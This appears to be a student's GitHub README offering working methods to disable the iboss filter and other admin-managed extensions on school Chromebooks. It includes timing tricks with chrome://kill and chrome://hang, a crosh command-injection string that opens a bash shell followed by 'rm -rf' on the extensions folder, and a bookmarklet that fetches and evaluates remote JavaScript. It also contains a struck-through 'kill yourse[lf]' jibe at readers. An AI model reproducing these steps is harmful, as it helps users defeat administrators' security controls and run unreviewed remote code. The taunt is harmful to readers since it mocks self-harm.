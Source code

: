 ## Tools for responsible students. If you do not have a brain, turn back now.
<br>



<details>
    
<summary><b>blow up iboss</b></summary>

0. READ THE WHOLE THING BEFORE ATTEMPTING!!! IF I GET ONE MORE STUPID EMAIL I SWEAR IM DELTEING THIS WHOLE PAGE!!!<sub>sysadmins you didnt hear that<sub>

1. Go to this page: `chrome-extension://kmffehbidlalibfeklaefnckpidbodff/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
If you go to [this page](https://www.google.com/search?q=chick+fil+a&rlz=1CASFJY_enUS1052&oq=proxy+fil+a&aqs=chrome.0.0i271j46i131i199i433i465i512j46i340i433i512l2j46i131i199i433i465i650j0i512j0i433i512j0i512jknives%20in%20ww10i271.1044j0j7&sourceid=chrome&ie=UTF-8&safe=active&ssui=on) and it loads, it worked!. You can close your tabs and the extension will be blown up successfully. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)
    
</details>

<details>

<summary><b>unblock youtube (EASY)</b></summary>
0. READ THE WHOLE THING BEFORE ATTEMPTING!!! THIS IS DIFFERENT FROM THE ABOVE METHOD!!!

1. Go to this page: `chrome-extension://bjlelllmddmghonfckbpjafiamjhlkio/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
5. Click on the lock or building icon
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

6. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

7. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

8. Go to youtube.com in a new tab.

If it loads, it worked!. Just don't close your tabs and the extension will be blown up successfully. If it stops working, redo steps 5-8. If it still doesn't work, close all your tabs and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)

</details>

<details>

<summary><b>root escalation (hack admin, HARD!)</b></summary>

0. THIS IS VERY DIFFICULT. DO NOT PROCEED WITHOUT ATLEAST A BASIC UNDERSTANDING OF BASH. base64 lmao
        
1. Find an unblocked way to open crosh. Do not ask me for help on this, I will not tell you how.

2. Type in `set_cellular_ppp \';bash;exit;\'`
        
3. You should be logged in as chronos. There is a way to escalate root from this position, but again im not telling you
        
4. rm -rf ~/Extensions/*

5. chmod 000 ~/Extensions/

5. wuv you sysadmins <3

</details>
    
<br>
<br>
<details>

<summary>blow up iboss method 2 (PATCHED!!!)</summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary>extension thingie (PATCHED!!!)</summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary>Unblock Youtube (PATCHED!!!)</summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>


Update on Projects:


| Project  | ETA |
| ------------- | ------------- |
| Uboss V3 (Unblocking Method)  | June  |
| Tissue Box  (Unblocking Method)  | September |
| Francium (Unblockable Unblocker) | June |
| Gallium (Game Site) | June |
| Blue (Unblocker) | September |
| Gemnoid (Unblocker) | September |

quick disclaimer none of these above projects are made by me, but i will still be posting them here. you think i have that much patience to work on one project for six months?

<b>me when you star and share:</b>

<img width="404" alt="literally me" src="https://user-images.githubusercontent.com/115044820/235795472-18621a38-e169-4260-a1be-1b74e58044e2.png">


<sub>I do not condone any misuse of the tools included here. Use responsibly and at your own risk. Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.</sub>

